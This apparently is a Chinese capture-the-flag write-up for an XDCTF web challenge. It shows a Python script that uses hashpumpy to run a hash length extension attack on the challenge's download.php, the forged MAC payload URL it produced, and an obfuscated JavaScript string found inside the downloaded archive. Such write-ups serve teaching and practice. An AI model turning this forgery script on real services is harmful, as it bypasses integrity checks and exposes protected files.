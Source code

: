 ```




?>

```


司机告诉我这是hash长度拓展攻击，找到一个工具
[http://www.cnblogs.com/pcat/p/5478509.html](http://www.cnblogs.com/pcat/p/5478509.html)

由于不知道密钥长度，直接写脚本跑

```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import hashpumpy
import urllib
import requests


url = "http://xdctfweb.xd-a8.com/download.php?filename=%s&mac=%s"

for x in xrange(52):
	h, f = hashpumpy.hashpump("f30a38d3cdcb25cf067468c2f108e1f5", "download.php", "www.rar", x)	
	r = requests.get(url%(urllib.quote(f), h))
	print x
	print r.content

得到

Payload: http://xdctfweb.xd-a8.com/download.php?filename=download.php%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%F0%00%00%00%00%00%00%00www.rar&mac=1f35a8fa0b3eedd9d25b5fe910ade0e7

```

下载www.rar发现有密码，这步让我感觉非常傻逼...强行加misc，就和后面的web强加pwn一样，没啥意义，安misc的逻辑，strings一下发现了不寻常的东西

```
Strings www.rar

$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$$__+$._$+"\\"+$.__$+$.$_$+$.$$_+"\\"+$.__$+$.$$_+$._$$+$._$+(![]+"")[$._$_]+$.$$$_+"."+(![]+"")[$._$_]+$._$+"\\"+$.__$+$.$__+$.$$$+"(\\\"\\"+$.__$+$._$$+$.__$+$._$+"\\"+$.__$+$._$_+$.$_$+"\\"+$.$__+$.___+"\\"+$.__$+$.___+$._$$+"\\"+$.__$+$.___+$.__$+"\\"+$.__$+$.__$+$.$$_+"\\"+$.$__+$.___+"\\"+$.__$+$.$__+$.$$$+"\\"+$.__$+$.___+$.$_$+"\\"+$.__$+$._$_+$.$__+"\\"+$.$__+$.___+"\\"+$.__$+$._$_+$._$$+$._$+"\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\"+$.$__+$.___+"\\"+$.__$+$.__$+$.__$+"\\"+$.__$+$.__$+$.$$_+$.__+$.$$$_+"\\"+$.__$+$.$$_+$._$_+"\\"+$.__$+$.___+$.$_$+"\\"+$.__$+$._$_+$._$$+$.__+$.$$$_+$.$$_$+"\\"+$.$__+$.___+"\\"+$.__$+$._$_+$.$__+"\\"+$.__$+$.$_$+$.___+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$$_+"\\"+$.__$+$.$__+$.$$$+"\\"+$.$__+$.___+"\\"+$.__$+$.__$+$.__$+$.$$$$+"\\"+$.$__+$.___+"\\"+$.__$+$._$$+$.__$+$._$+$._+"\\"+$.$__+$.___+"\\"+$.__$+$.___+$._$$+"\\"+$.__$+$.___+$.__$+"\\"+$.__$+$.__$+$.$$_+"\\"+$.$__+$.___+$.$$_$+$.$$$_+"\\"+$.__$+$.___+$._$$+"\\"+$.__$+$.__$+$.$$$+$.$$_$+$.$$$_+"\\"+$.$__+$.___+"\\"+$.__$+$.__$+$.$_$+$.$$$_+"\\"+$.$__+$.___+"\\"+$.__$+$.__$+$.__$+"\\"+$.__$+$.$_$+$.$$_+"\\"+$.$__+$.___+$.__+"\\"+$.__$+$.__$+$.__$+"\\"+$.__$+$.$_$+$.$_$+"\\"+$.__$+$.___+$.$_$+".\\\"\\"+$.$__+$.___+")"+"\"")())();

```
